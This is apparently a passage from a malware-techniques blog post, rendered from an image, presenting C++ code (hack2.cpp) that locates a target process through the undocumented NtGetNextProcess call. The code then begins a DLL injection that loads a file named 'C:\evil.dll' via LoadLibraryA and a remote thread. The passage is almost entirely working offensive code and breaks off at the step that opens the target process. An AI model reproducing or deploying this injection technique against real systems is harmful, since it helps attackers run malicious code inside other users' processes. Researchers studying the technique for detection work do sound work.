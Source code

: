 Source code is similar to my [post](/pentest/2021/09/29/findmyprocess.html). The only difference is the logic of the `findMyProc` function (`hack2.cpp`):       

```cpp
/*
 * hack2.cpp - find process ID
 * by NtGetNextProcess and
 * DLL inject. C++ implementation
 * @cocomelonc
 * https://cocomelonc.github.io/malware/2023/05/26/malware-tricks-30.html
*/
#include <windows.h>
#include <stdio.h>
#include <winternl.h>
#include <psapi.h>
#include <shlwapi.h>

#pragma comment(lib, "ntdll.lib")
#pragma comment(lib, "shlwapi.lib")

char evilDLL[] = "C:\\evil.dll";
unsigned int evilLen = sizeof(evilDLL) + 1;

typedef NTSTATUS (NTAPI * fNtGetNextProcess)(
  _In_ HANDLE ProcessHandle,
  _In_ ACCESS_MASK DesiredAccess,
  _In_ ULONG HandleAttributes,
  _In_ ULONG Flags,
  _Out_ PHANDLE NewProcessHandle
);

int findMyProc(const char * procname) {
  int pid = 0;
  HANDLE current = NULL;
  char procName[MAX_PATH];

  // resolve function address
  fNtGetNextProcess myNtGetNextProcess = (fNtGetNextProcess) GetProcAddress(GetModuleHandle("ntdll.dll"), "NtGetNextProcess");

  // loop through all processes
  while (!myNtGetNextProcess(current, MAXIMUM_ALLOWED, 0, 0, &current)) {
    GetProcessImageFileNameA(current, procName, MAX_PATH);
    if (lstrcmpiA(procname, PathFindFileName((LPCSTR) procName)) == 0) {
      pid = GetProcessId(current);
      break;
    }
  }

  return pid;
}

int main(int argc, char* argv[]) {
  int pid = 0; // process ID
  HANDLE ph; // process handle
  HANDLE rt; // remote thread
  LPVOID rb; // remote buffer
  pid = findMyProc(argv[1]);
  printf("%s%d\n", pid > 0 ? "process found at pid = " : "process not found. pid = ", pid);

  HMODULE hKernel32 = GetModuleHandle("kernel32");
  VOID *lb = GetProcAddress(hKernel32, "LoadLibraryA");

  // open process
```